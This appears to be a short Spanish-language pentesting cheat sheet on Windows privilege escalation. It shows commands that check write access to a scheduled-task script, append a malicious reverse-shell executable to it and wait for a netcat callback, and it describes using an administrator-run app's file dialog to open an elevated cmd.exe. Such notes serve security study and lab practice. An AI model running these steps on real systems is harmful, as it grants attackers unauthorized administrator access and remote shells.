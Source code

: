 
### SCHEDULED TASKS

Si encontramos un archivo que corre tareas programadas y tenemos capacidades de escritura en los mismos podemos agregegarle una ejecución a nuestro binario malicioso:

        accesschk.exe /accepteula -wvu "C:\PATH\To\file"

##### La ruta al archivo maliciosa debe ser absoluta!!!

        echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

Esperamos con nuestro netcat a que se ejecute.

### INSECURE GUI APPS

Si vemos que una app corre como administrador (para esto necesitamos tener un entorno gráfico) podemos usarla para correr un cmd con los mismos privilegios:

Para ver con qué privilegios corre:

        tasklist /V | findstr binario_de_la_app.exe

Abrimos la app y le damos open para cargar un archivo "X" y en el explorador de windows colocamos:  

        file://c:/windows/system32/cmd.exe (o el path al cmd.exe)















